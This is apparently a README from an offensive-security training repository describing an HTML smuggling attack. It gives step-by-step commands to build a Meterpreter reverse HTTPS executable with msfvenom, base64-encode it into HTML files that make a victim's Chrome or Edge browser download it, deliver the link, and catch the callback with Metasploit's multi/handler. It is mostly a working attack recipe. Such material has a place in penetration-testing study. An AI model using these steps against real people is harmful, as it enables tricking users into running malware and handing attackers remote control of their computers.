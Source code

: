 ### HTMLSmuggling Presentation

HTML Smuggling is one of the Client-Side attacks that consist on trick someone to clik on a malicious link that redirects to a malicious web that download on his computer malware.

In this part of the repository we can find several HTML files that lead to the download of the client's browser of malicious code via JavaScript code.

The use of this files is as follows:

- Open a HTTP server, for example:

    ```bash
    sudo service apache2 start
    ```

- Create a Base64 Meterpreter executable:

    ```bash
    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> -f exe -o /var/www/html/msfstaged.exe

    base64 /var/www/html/msfstaged.exe
    ```

- Copy the Base64 payload onto the HTML file ([Chrome](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/HTMLSmuggling/HTMLSmuggling-Chrome.html) if the client is using Google Chrome or [Edge](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/HTMLSmuggling/HTMLSmuggling-Edge.html) if the client is using Microsoft Edge).

- Place the HTML file in the root directory of the HTTP server (var/www/html)

- Deliver the link.

- Make use of the multi/handler module of Metasploit Framework to catch the callback.